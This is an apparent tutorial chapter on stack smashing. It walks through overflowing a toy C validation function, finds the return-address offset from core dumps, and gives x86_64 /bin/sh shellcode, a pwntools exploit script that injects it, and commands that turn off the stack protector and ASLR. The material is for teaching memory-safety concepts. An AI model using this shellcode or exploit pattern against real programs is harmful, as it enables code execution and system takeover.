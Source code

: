 # Chapter 1. Stack Smashing
In this chapter, we discuss the most common and easy-to-understand memory-safety problems: stack buffer overflow. An attacker could leverage such bugs to modity the stack and achieve malicious goals, knowning as stack smashing. We will not dive into the technical details of exploit writting (there are many such tutorials and tools available online, e.g., for CTF training) but mainly discuss why such bugs are dangerous and show how attacks could happen in practice. 

## Section 1.1 Stack Smashing

### 1.1.1 Warm Up
Let's use the following code snippet as a toy example, which contains a validation process that requires the user to input a key to pass the validation. The code contains a buffer overflow bug because the length of buf is 64 while it may read 160 byte data. Supposing the user neither know a valid key nor can obtain the source code. How can he find a key to pass the validation? 

```
int validation() {
    char buf[64];
    read(STDIN_FILENO, buf, 160);
    if(buf[0]=='$'){ //any code to check the input
        write(STDOUT_FILENO, "Key verified!\n", 14);
        return 1;
    }else{
    	write(STDOUT_FILENO, "Wrong key!\n", 11);
    }
    return 0;
}
```
The trick lies in the stack layout, and we can obtain the layout by analyzing its assembly code.
```
0x401150 <+0>:     push   %rbp
0x401151 <+1>:     mov    %rsp,%rbp
0x401154 <+4>:     sub    $0x50,%rsp
0x401158 <+8>:     xor    %edi,%edi
0x40115a <+10>:    lea    -0x50(%rbp),%rsi
0x40115e <+14>:    mov    $0xa0,%edx
0x401163 <+19>:    callq  0x401050 <read@plt>
0x401168 <+24>:    movsbl -0x50(%rbp),%ecx
0x40116c <+28>:    cmp    $0x24,%ecx
0x40116f <+31>:    jne    0x40119a <+74>
0x401175 <+37>:    mov    $0x1,%edi
0x40117a <+42>:    movabs $0x402004,%rsi
0x401184 <+52>:    mov    $0xe,%edx
0x401189 <+57>:    callq  0x401030 <write@plt>
0x40118e <+62>:    movl   $0x1,-0x4(%rbp)
0x401195 <+69>:    jmpq   0x4011ba <+106>
0x40119a <+74>:    mov    $0x1,%edi
0x40119f <+79>:    movabs $0x402013,%rsi
0x4011a9 <+89>:    mov    $0xb,%edx
0x4011ae <+94>:    callq  0x401030 <write@plt>
0x4011b3 <+99>:    movl   $0x0,-0x4(%rbp)
0x4011ba <+106>:   mov    -0x4(%rbp),%eax
0x4011bd <+109>:   add    $0x50,%rsp
0x4011c1 <+113>:   pop    %rbp
0x4011c2 <+114>:   retq
```
![image](./figures/chapt1-stack-main.png)

Let's assume the our porpose is to enforce the function to return 1, so we can trace the data flow of the return value backwards. Starting from Line <+106>, we know the return value of the register (%eax) is moved from the stack -0x4(%rbp). Line <+99> saves 0x0 to -0x4(%rbp), while Line <+62> saves 0x1 to -0x4(%rbp). So we can tamper the buffer of -0x4(%rbp) to bypass the validation. Line <+4> tells us the assembly code increases the stack size with 0x50. We can compute the offset of -0x4(%rbp) to the register %rsp should be 0x4b or 76 in decimal. In order to let the function return 1, we can input a 76-byte buf with the last four bytes to be 1.

### 1.1.2 Stack Smashing
A stack smashing attack contains three major steps:
- Step 1. Detect buffer overflow bugs or find an input that can crash a program. This is usually done via fuzz testing. 
- Step 2. Analyze stack layout of the buggy code. In practice, attackers may not be able to obtain the executables. 
- Step 3. Design the exploit. To obtain the shell. e.g., with return-oriented programming.

Now, we discuss a more general senario, i.e., 1) the attacker cannot obtain the binaries, and 2) his goal is to obtain the shell. 

#### 1.1.2.1 Stack Layout Analysis
The purpose is to obtain the offset of the return address so that we can point it to the another code address, e.g., shell code. Let's still use our previous toy program for demonstration. The idea is to input several 'A's (hexdecimal ASCII: 0X41). If it has changed the return addresses, then the program will not be able to continue the execution and report the bad return address. We can gradually increase the length of the input to learn the offset of the return address. 

|                |
|:--------------:|
| previous frame |
|   ret address  |
|       ...      |
|    AAAAAAAA    |

Before experiments, we need to turn on the core dump message
```
#: ulimit -c unlimited
#: sudo sysctl -w kernel.core_pattern=core
```

Input several 'A's and check the core dump message.
```
#: python -c 'print "A"*92'
#:./bug 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA…
Wrong license!
Segmentation fault (core dumped)

#: gdb --core core 
...
Program received signal SIGSEGV, Segmentation fault.
0x0000000a41414141 in ?? ()
```
The log message displays a segmentation fault caused by a invalid return address 0x0000000a41414141. Because there are four 'A's, we can know the offset of the return address should be 92-4=88. Note that if you try more a 'A's, the error message may not be 0x0000414141414141 but another different address because 0x0000414141414141 is an invalid code address to the OS.

#### 1.1.2.2 Design the Exploit 
The following code is a shellcode snippts for x86_64, which executes system("/bin/sh"). 
```
xor eax, eax
mov 0xFF978CD091969DD1, rbx
neg rbx
push rbx
push rsp
pop rdi
cdq
push rdx
push rdi
push rsp
pop rsi
mov 0x3b, al
syscall
```

We can test if the shellcode works via the following code. It first encodes and saves the shellcode as a char array, and then jumps to it as a function call.
```
const char shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main (void) {
  char buf[256];
  int len = sizeof(shellcode);
  for(int i=0; i<len; i++)
	 buf[i] = shellcode[i]; 
  ((void (*) (void)) buf) ();
}
```

If it works, we can inject the shellcode to the vulnerable program.
```
#! /usr/bin/env python
from pwn import *

ret = 0x7fffffffe1d0
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload = shellcode + "A" * (88-len(shellcode)) + p64(ret)
p = process("./bug")
p.send(payload)
p.interactive()
```

Execute the attacking code. If you are lucky enough, you should be able to obtain the following result.
```
#: python hijack.py 
[+] Starting local process './bug': pid 48788
[*] Switching to interactive mode
Input your key:Wrong key!
$ whoami
hui
$ 
```

If not, it possibly means you are using the stack protector or the ASLR. Turn off the stack protector when compiling the buggy program to eable the data on the stack to be executable.
```
#: clang -fno-stack-protector -z execstack bug.c
```

You can also turn off the ASLR as following.
```
#: echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Section 2. Protection Techniques
